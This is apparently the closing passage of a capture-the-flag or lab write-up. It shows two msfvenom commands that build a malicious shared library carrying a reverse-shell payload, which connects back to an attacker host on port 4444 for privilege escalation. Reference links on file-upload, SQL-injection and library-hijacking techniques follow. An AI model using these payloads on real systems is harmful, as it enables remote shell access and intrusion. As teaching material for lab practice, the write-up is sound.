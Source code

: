 Another option is to use msfvenom to build the malicious shared object.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.42 LPORT=4444 -f elf-so -o libcounter.so
msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.42 LPORT=4444 -f elf-so -o libcounter.so
```

**Pwned**



---

# Related Links

- [File Upload - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)
- [Arbitrary local file read via file upload - Vulnerabilities - Acunetix](https://www.acunetix.com/vulnerabilities/web/arbitrary-local-file-read-via-file-upload/)
- [PHP Tricks - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#new-line-bypass)
- [php - PDO support for multiple queries (PDO_MYSQL, PDO_MYSQLND) - Stack Overflow](https://stackoverflow.com/questions/6346674/pdo-support-for-multiple-queries-pdo-mysql-pdo-mysqlnd)
- [PDO_MYSQLND: Mighty multiple-queries and PDOStatement - Ulf Wendel](https://blog.ulf-wendel.de/2008/pdo_mysqlnd-insecure-multi-statements-and-pdostatementnextrowset/)
- [SELECT INTO OUTFILE - MariaDB Knowledge Base](https://mariadb.com/kb/en/select-into-outfile/)
- [Abusing missing libraries for Privilege Escalation | by Nishant Sharma | Pentester Academy Blog](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)
- [Exploiting Shared Library Misconfigurations](https://tbhaxor.com/exploiting-shared-library-misconfigurations/)
